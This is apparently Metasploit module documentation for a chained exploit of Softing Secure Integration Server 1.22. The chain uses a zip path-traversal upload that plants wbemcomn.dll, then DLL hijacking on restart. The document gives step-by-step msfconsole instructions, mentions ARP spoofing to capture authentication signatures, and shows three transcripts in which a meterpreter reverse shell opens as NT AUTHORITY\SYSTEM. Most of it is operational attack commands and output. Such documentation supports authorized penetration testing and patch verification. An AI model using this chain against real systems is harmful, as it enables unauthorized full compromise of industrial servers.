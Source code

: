 ## Description

This module chains 2 vulnerabilities (CVE-2022-1373 and CVE-2022-2334) to achieve authenticated remote code execution against Softing Secure Integration Server v1.22.

This was demonstrated by Steven Seeley and Chris Anastasio of Incite Team as part of Pwn2Own Miami 2022.

In CVE-2022-1373, the restore configuration feature is vulnerable to a directory traversal vulnerablity when processing zip files. When using the "restore configuration" feature to upload a zip file containing a path traversal file which is a dll called ..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\wbem\\wbemcomn.dll. This causes the file C:\\Windows\\System32\\wbem\\wbemcomn.dll to be created and executed upon touching the disk.

In CVE-2022-2334, the planted wbemcomn.dll is used in a DLL hijacking attack when Softing Secure Integration Server restarts upon restoring configuration, which allows us to execute arbitrary code on the target system.

The chain demonstrated in Pwn2Own used a signature instead of a password. The signature was acquired by running an ARP spoofing attack against the local network where the Softing SIS server was located. A username is also required for signature authentication. When using asignature, any provided password is ignored. To use passwords again, `unset SIGNATURE`.

A custom DLL can be provided to use in the exploit instead of using the default MSF-generated one. The DLL must be compiled with the correct exports, which can be found in "external/source/exploits/CVE-2022-2334/template.def". It is assumed that the operator has compiled the DLL correctly for the exploit, if a custom DLL is specified.

## Vulnerable Application

This module was tested against version 1.22, installed on Windows Server 2019 Standard x64. Older versions of the vulnerable application are no longer available for download.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start `msfconsole`
2. Do: `use exploit/windows/http/softing_sis_rce`
3. Do: `set RHOSTS <target_ip>`
4. Do: Optional: `set SSL true` if necessary
5. Do: Optional: `set RPORT <target_port>` if SSL is set
6. Do: `set USERNAME <username>` if necessary. Default is `admin`
7. Do: `set PASSWORD <password>` if necessary. Default is `admin`
8. Do: Optional: `set SIGNATURE <signature>` to use signature authentication. `PASSWORD` will be ignored if `SIGNATURE` is set!
9. Do: Optional: `set DLLPATH <path_to_custom_dll>` to use a custom DLL. It is assumed that the DLL is correctly compiled by the operator for the exploit.
10. Do: `exploit` and get a shell
11. Do: Recommended: delete `C:\\Windows\\System32\\wbem\\wbemcomn.dll` 

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Default options

```
msf6 > use exploit/windows/http/softing_sis_rce
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 1 opened (192.168.50.254:4444 -> 192.168.50.119:50525) at 2024-04-11 19:52:35 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a signature
```
msf6 > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > set SIGNATURE f7f623f3d40764a03da6c3379919b964
SIGNATURE => f7f623f3d40764a03da6c3379919b964
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[*] 192.168.50.119:8099 - Authenticating as user admin with signature f7f623f3d40764a03da6c3379919b964...
[+] 192.168.50.119:8099 - Signature f7f623f3d40764a03da6c3379919b964 is valid for user admin
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 4 opened (192.168.50.254:4444 -> 192.168.50.119:50618) at 2024-04-11 20:00:11 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a custom DLL
```
msf6 > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > set DLLPATH /home/kali/Documents/softing/wbemcomn.dll
DLLPATH => /home/kali/Documents/softing/wbemcomn.dll
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 5 opened (192.168.50.254:4444 -> 192.168.50.119:50696) at 2024-04-11 20:03:43 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
